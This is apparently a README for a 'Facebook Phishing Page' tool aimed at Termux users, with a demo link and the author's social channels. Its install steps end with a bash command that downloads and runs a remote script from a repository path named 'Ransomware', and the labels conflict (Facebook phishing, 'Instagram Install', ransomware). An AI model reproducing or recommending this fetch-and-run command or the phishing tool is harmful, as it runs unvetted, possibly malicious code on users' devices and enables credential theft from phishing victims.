 <h1 align="center"><u>Facebook Phishing Page</u></h1>


<h3 align="center"><a href="https://youtu.be/i3R4cJgcheU">Demo video click</a></h3>

---

### [TERMUX] Instagram Install Comments

```
pkg update && pkg upgrade -y
```
```
pkg install wget
```
```
bash <(curl -s https://raw.githubusercontent.com/Masterdas/Ransomware/refs/heads/main/Ransomware)
```

---

## 📌 Contact Me  

<a href="https://youtube.com/@zerodarknexus">
  <img src="https://img.shields.io/badge/YouTube-FF0000?style=for-the-badge&logo=youtube&logoColor=white" alt="YouTube">
</a>  

<a href="https://github.com/Masterdas?tab=repositories">
  <img src="https://img.shields.io/badge/GitHub-000000?style=for-the-badge&logo=github&logoColor=white" alt="GitHub">
</a>  

<a href="https://t.me/ZeroHackNexus">
  <img src="https://img.shields.io/badge/Telegram-26A5E4?style=for-the-badge&logo=telegram&logoColor=white" alt="Telegram">
</a>  

<a href="https://chat.whatsapp.com/II35pNaN25rHqnUmqXK6ag">
  <img src="https://img.shields.io/badge/WhatsApp-25D366?style=for-the-badge&logo=whatsapp&logoColor=white" alt="WhatsApp">
</a>